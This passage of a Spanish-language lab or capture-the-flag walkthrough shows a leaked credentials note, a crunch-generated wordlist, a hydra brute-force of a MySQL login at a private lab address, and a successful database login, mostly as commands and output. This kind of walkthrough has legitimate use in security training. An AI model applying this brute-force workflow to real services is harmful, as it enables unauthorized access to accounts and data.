 Leámoslo:
```bash
cat credential_mysql.txt
Listen, stif, I sent you the password of my MySQL user by email, but I think you didn't get it, I'll send it to you here:

User: hulk
Password: fuerzabrutaXXXX

Remember to change the "XXXX" to a secure number combination before sending.

HINT: it is in a range of 0-3000
```
Bien, tenemos que crear un wordlist para poder aplicar fuerza bruta.

Lo creamos con la herramienta **crunch**:
```bash
crunch 15 15 0123456789 -t fuerzabruta@@@@ -o wordlist.txt
Crunch will now generate the following amount of data: 160000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10000
```

Y aplicamos fuerza bruta con **hydra**:
```bash
hydra -l 'hulk' -P wordlist.txt mysql://192.168.10.80 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-03 11:38:55
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking mysql://192.168.10.80:3306/
[3306][mysql] host: 192.168.10.80   login: hulk   password: fuerzabruta2024
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-03 11:39:27
```
Genial, la tenemos.

Entremos al **servicio MySQL**:
```bash
mysql -u 'hulk' -h 192.168.10.80 -P 3306 -p --skip-ssl
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 4073
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
